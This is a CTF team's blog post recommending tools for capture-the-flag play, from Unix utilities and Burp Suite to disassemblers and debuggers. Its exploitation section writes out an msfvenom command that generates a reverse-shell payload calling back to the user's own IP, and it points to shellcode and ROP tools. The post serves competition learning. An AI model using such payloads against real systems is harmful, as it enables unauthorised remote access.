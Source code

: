 ```yaml
---
layout: post
title: "Basic Tools"
categories: learning
authors:
  - saelo
---
```


CTFs are about the skill, not about the tools. Still, you'll need a couple of tools to be successful.\\
In general a good advice is to get used to working with the OS shell. There's really **a lot** of things you can do **very** quickly and effectively if you know your way around bash/zsh/*your_favourite_shell_here* and python or *your_favourite_scripting_language_here*.

Get used to curl, bash for + while loops, grep, pipes, file redirection, command substitution, fifos, ... you name it. Also choose a decent text editor (vim, sublime, emacs, ... **not** nano or similar :P) and learn how to use it properly.

Try to stay away from tools that automate too much, you'll not learn anything from using them and they most likely won't help you solve the challenge. Automated tools definitely lack behind a skilled human :)


###General Tools

There's a couple of useful Unix tools you'll often need during CTFs. Some tools you should be familiar with:

Tool           | Description
-------------- | -----------------------------------------------------------------------------------------------
strings        | Search for strings in files, supports 8, 16 and 32 bit Unicode
-------------- | -----------------------------------------------------------------------------------------------
file           | Try to detect the file type based on magic byte sequences at the start of the file
-------------- | -----------------------------------------------------------------------------------------------
netcat/nc      | Connect to a remote tcp/udp/sctp server and talk to it from the command line
-------------- | -----------------------------------------------------------------------------------------------
hexdump/xxd    | View files and data in hexadecimal
-------------- | -----------------------------------------------------------------------------------------------
hexedit/ghex   | Edit files in hexadecimal
-------------- | -----------------------------------------------------------------------------------------------
strace/ltrace  | Trace the execution of a binary, log syscalls/library function calls
-------------- | -----------------------------------------------------------------------------------------------
wireshark      | View network traffic, either live or from a pcap file
-------------- | -----------------------------------------------------------------------------------------------


###Web Security

My favourite tool for doing any kind of web hacking is the [Burp Suite](http://portswigger.net/burp/). Burp Suite is a very powerful and flexible tool and the free version is usually sufficient. For a start you'll want to make yourself familiar with the Proxy and the Repeater. Also take a look at the Intruder at some point.\\
Oftentimes a combination of curl, grep and sometimes a bash loop or similar can work wonders too though.

Additionally make yourself familiar with how to make web requests from your favourite scripting language. For python I can recommend the [requests](http://docs.python-requests.org/en/latest/) package.

Moreover it might be a good idea to have a few VMs (try out [vagrant](https://www.vagrantup.com/)) or [docker](https://www.docker.com/) containers ready so you can quickly run some server side code locally to develop and debug your exploit.

Ultimately web hacking really isn't about (automated) tools, so don't start running some vuln discovery tool or directory bruteforcer against the web server, it will get you nowhere and will just put the organizers web servers under unnecessary load.


###Reverse Engineering

You'll need a disassembler: Basically you have the choice between [radare2](https://github.com/radare/radare2), [hopper](http://www.hopperapp.com/) and [IDA Pro](https://www.hex-rays.com/products/ida/) (there's a free/evaluation version available for both, hopper and IDA). IDA Pro is pretty much the industry standard tool for reverse engineering (and thus relatively pricey).

For debugging you'll definitely want to make yourself familiar with gdb. If you want an improved UI you can take a look at [peda](https://github.com/longld/peda), the .gdbinit from [here](https://github.com/gdbinit/Gdbinit) or try out [voltron](https://github.com/snare/voltron).

If you need to do reverse engineering and/or debugging on Windows, take a look at [x64dbg](http://x64dbg.com/#start), [OllyDbg](http://www.ollydbg.de/) or the [Immunity Debugger](http://debugger.immunityinc.com/). Also [WinDbg](http://www.windbg.org/) is very powerful, especially since it can do kernel level debugging (rarely needed during CTFs though).


###Exploitation

Since reverse engineering a binary is usually the first step towards developing an exploit for it, make sure to also read the section on reverse engineering.

For your exploit you can usually grab some shellcode from the internet, e.g. [this one](http://shell-storm.org/shellcode/files/shellcode-752.php), but msfvenom can be useful, too. For example

    ./msfvenom \
     -p linux/x86/shell_reverse_tcp \
     LHOST=$(curl icanhazip.com) \
     LPORT=4444 \
     -b '\x00\x09\x0a\x0b\x0c\x0d\x20' \
     -f python

will generate a reverse shell payload without zero bytes or whitespace in it and spit it out as ready to use python code.\\
If you need to build a ROP payload, give [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) a try (metasploit has a similar utility called msfrop, but I found ROPgadget to work better most of the times).

Some other useful tools include the [checksec.sh](http://www.trapkit.de/tools/checksec.html) script to quickly check which mitigations are enabled on a binary, the [pattern_create](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb) and [pattern_offset](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb) scripts from metasploit to find various important offsets (e.g the offset from the start of a buffer to the saved return address on the stack), as well as the metasm shell (for example to quickly assemble a "jmp short 0x10" to jump over some corrupted part of the shellcode) or nasm (to build your own shellcode).

Also (shameless plug) take a look at our [ctfcode repository](https://github.com/kitctf/ctfcode) :)
